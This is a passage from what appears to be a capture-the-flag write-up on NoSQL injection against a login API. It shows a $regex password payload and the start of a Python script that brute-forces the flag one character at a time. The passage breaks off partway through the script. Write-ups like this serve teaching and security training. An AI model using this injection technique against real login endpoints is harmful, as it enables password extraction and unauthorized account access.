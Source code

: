 	The response leght after 45 is 233 which means password length in 45 characters.

	<img src="../image/Pasted image 20220224065122.png" alt="inturder" width="500"/>

- Retrieving flag

	The flag will be in format knox{XXXXXXXXXXXXX}, these are 6 characters and total lenght of password is 45 thus 39 character left.

	Using `$regex`  we can retrieve the password as well.
	```username=admin&password[$regex]=knox\{a.*```
	The regex will return true if first character in braces is a and anything after that, thus we use the same logic in our code.

	<img src="../image/pass.gif" alt="script" width="500"/>

	```Python
	#!/usr/bin/python3  
	import re  
	import requests  
	  
	def main():  
		url = 'http://:9000/api/login'
		proxy= {  
		'http': 'http://127.0.0.1:8080'
		}
		headers = {'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'}  
		fail_msg = re.compile('Failed')  
		flag = "knox\{"  
		mydata = "username=admin&password[$regex]="  
		alphabates= ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','0','1','2','3','4','5','6','7','8','9','_','A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']
